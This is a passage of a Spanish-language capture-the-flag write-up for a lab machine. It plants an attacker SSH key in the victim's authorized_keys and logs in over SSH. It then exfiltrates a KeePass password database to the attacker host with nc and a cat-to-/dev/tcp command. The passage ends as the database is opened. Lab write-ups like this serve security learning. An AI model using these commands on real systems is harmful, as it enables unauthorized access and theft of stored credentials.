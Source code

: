 ```bash wrap=false title="Máquina víctima"
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMdlq0HygH+TmnlbkEVYyOCxFKavVD10ChBYdedvgijx zelpro@kali" > authorized_keys
```

```bash wrap=false title="Conexión SSH"
❯ ssh user@10.10.10.147
The authenticity of host '10.10.10.147 (10.10.10.147)' can't be established.
ED25519 key fingerprint is SHA256:Hqxg+VODVEXsVQmThoXvZx82QI/LgQDGT59rQLHOaDQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.147' (ED25519) to the list of known hosts.
Linux safe 4.19.0-25-amd64 #1 SMP Debian 4.19.289-2 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Dec  7 20:30:52 2023 from 10.10.14.23
user@safe:~$                                                                                                                                                                                                                                          
```

## Escalada de privilegios

Vemos un archivo `Keepass` bastante raro en el directorio del usuario:

```bash wrap=false
user@safe:~$ file *
IMG_0545.JPG:     JPEG image data, baseline, precision 8, 3264x2448, frames 3
IMG_0546.JPG:     JPEG image data, baseline, precision 8, 3264x2448, frames 3
IMG_0547.JPG:     JPEG image data, baseline, precision 8, 3264x2448, frames 3
IMG_0548.JPG:     JPEG image data, baseline, precision 8, 3264x2448, frames 3
IMG_0552.JPG:     JPEG image data, baseline, precision 8, 3264x2448, frames 3
IMG_0553.JPG:     JPEG image data, baseline, precision 8, 3264x2448, frames 3
myapp:            ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=fcbd5450d23673e92c8b716200762ca7d282c73a, not stripped
MyPasswords.kdbx: Keepass password database 2.x KDBX
user.txt:         ASCII text
```

Para traernos ese archivo, haremos lo siguiente:

```bash title="Máquina atacante"
nc -lvnp 4646 > MyPasswords.kdbx
```

```bash title="Máquina víctima"
cat < MyPasswords.kdbx > /dev/tcp/10.10.14.5/4646
```

Si lo abrimos con la herramienta `keepassxc` veremos que tiene contraseña:
